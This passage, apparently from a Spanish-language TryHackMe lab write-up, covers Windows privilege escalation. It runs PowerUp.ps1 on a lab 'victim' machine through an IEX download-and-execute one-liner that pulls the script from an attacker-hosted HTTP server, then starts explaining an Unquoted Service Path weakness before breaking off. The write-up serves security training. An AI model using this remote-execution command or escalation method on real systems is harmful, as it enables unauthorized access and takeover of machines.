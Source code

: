 	Invoke-AllChecks
	
![9]

Este nos permitirá efectuar todos los escaneos con los que fue programado inicialmente, de esta forma nos aseguramos de no perdernos de ningún detalle.

El siguiente paso es ejecutar el script en la máquina víctima, y para ello nos valemos de la herramienta **Invoke-Expression** para poder entablar un socket con un servidor que hayamos establecido inicialmente (como con Python) el cual hostee el script de **PowerUp.ps1**; esto nos permitirá ejecutar el escaneo sin necesidad de copiar el script a la máquina. Este proceso de agregar el **Invoke-AllChecks** y ejecutar el **IEX** nos permite realizar todo en un solo paso; de otro modo, primero tendríamos que copiar el script a la máquina víctima, invocarlo y posteriormente ejecutar el **Invoke-AllChecks**.

	iex(New-Object Net.WebClient).downloadString('http://10.10.188.83:8080/PowerUp.ps1')
	
Recuerda tener iniciado un servidor HTTP con **Python** que proporcione a **PowerShell** del script solicitado:

![10]

![11]

Como podemos observar, ya solo con haber ejecutado el **IEX** nuestro script ya comenzó a realizar el escaneo directamente.

# Unquoted Service Path
De acuerdo con la salida proporcionada por **PowerUp.ps1**, el sistema cuenta con una vulnerabilidad de tipo **Unquoted Service Path** para el servicio **AdvancedSystemCareService9**. Una explicación detallada de este tipo de vulnerabilidad puede encontrarse en el room [Windows Privesc](https://tryhackme.com/room/winprivesc), sin embargo, se dará un pequeño resumen a continuación:

Todos los servicios de Windows corren bajo un ejecutable (.exe) en alguna ruta del sistema. Esta ruta está dada bajo la variable **Path** como se aprecia en la siguiente imagen:

![11]

Este Path será la dirección donde Windows buscará el ejecutable del servicio. El problema existe cuando dicha ruta no se encierra entre comillas, no es lo mismo (para Windows) la ruta:

	C:\Program Files\test
	
A la ruta:

	"C:\Program Files\test"
	
Cuando la ruta está encerrada entre comillas, Windows irá directamente a este directorio por el ejecutable. Por el contrario, si la ruta no está entre comillas, Windows empezará a anexar la terminación **.exe** a cualquier directorio que encuentre, siempre haciendo pausas entre espacios en el path.

Ejemplo:

Si la ruta es C:\Program Files\Main Program\Sub Program\Test.exe, y no está entre **comillas**, Windows buscará primero un ejecutable en esta ruta:
